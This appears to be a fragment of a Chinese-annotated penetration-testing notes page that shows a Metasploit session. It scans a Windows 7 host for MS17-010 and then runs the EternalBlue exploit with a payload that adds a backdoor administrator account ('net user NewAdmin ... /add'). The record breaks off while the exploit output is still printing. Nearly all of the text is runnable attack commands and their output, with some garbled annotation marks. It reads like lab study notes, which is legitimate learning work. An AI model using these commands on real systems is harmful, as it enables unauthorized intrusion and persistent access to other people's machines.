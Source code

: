    4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMBws Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 1
msf6 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.23.12
rhosts => 192.168.23.12
msf6 auxiliary(scanner/smb/smb_ms17_010) > set threads 100
threads => 100
msf6 auxiliary(scanner/smb/smb_ms17_010) > run


[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

#### 添加账号  ???  
-----------------------------------  
msf6 auxiliary(scanner/smb/smb_ms17_010) > use 2
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp   【】
msf6 exploit(windows/smb/ms17_010_eternalblue) > set threads 100
threads => 100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.23.12
rhosts => 192.168.23.12
msf6 exploit(windows/smb/ms17_010_eternalblue) > set threads 100
threads => 100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/exec    【???】
payload => windows/x64/exec
msf6 exploit(windows/smb/ms17_010_eternalblue) > set cmd net user NewAdmin SuperDuperPass1 /add  【】
cmd => net user NewAdmin SuperDuperPass1 /add   【】
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

*] 192.168.23.12:445 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.23.12:445 - The target is vulnerable.
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
